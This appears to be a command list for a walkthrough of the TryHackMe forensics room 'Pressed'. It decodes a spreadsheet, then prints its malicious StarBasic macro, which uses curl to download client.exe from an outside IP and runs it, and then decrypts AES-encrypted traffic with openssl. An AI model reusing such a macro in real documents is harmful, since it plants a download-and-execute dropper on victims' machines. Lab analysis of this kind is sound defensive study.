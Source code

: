 ## TryHackMe room Pressed https://tryhackme.com/room/pressedroom

### TryHackMe Pressed YouTube Video Walk Through: 

[TryHackMe Pressed Full Walkthrough 2025](#)

**Below commands used on TryHackMe room Pressed YouTube video walk through:**

```
cat sheet.txt | base64 -d > sheet.ods
```
```
unzip sheet.ods
cat Basic/Standard/evil.xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE script:module PUBLIC "-//OpenOffice.org//DTD OfficeDocument 1.0//EN" "module.dtd">
<script:module xmlns:script="http://openoffice.org/2000/script" script:name="evil" script:language="StarBasic" script:moduleType="normal">Sub Main

    Shell(&quot;cmd /c curl 10[.]13[.]44[.]207/client.exe -o C:\ProgramData\client.exe&quot;)
    Shell(&quot;cmd /c echo VEhN******F5Xw==&quot;)
    Shell(&quot;C:\\ProgramData\\client.exe&quot;)
```

convert text to hex:

```
echo -n 'rhI1Yaz****Ivl8ps6MJj' | xxd -p
```

Using openssl to decrypt aes

```
openssl enc -aes-256-cbc -d -K 726849315961******149766c387073364d4a6a -iv 70457738****34736a -in cmd.bin -out cmd.txt
```

![Ghidra Main Function Showcasing the Key](https://github.com/djalilayed/tryhackme/blob/main/Pressed/Ghidra_main.png)
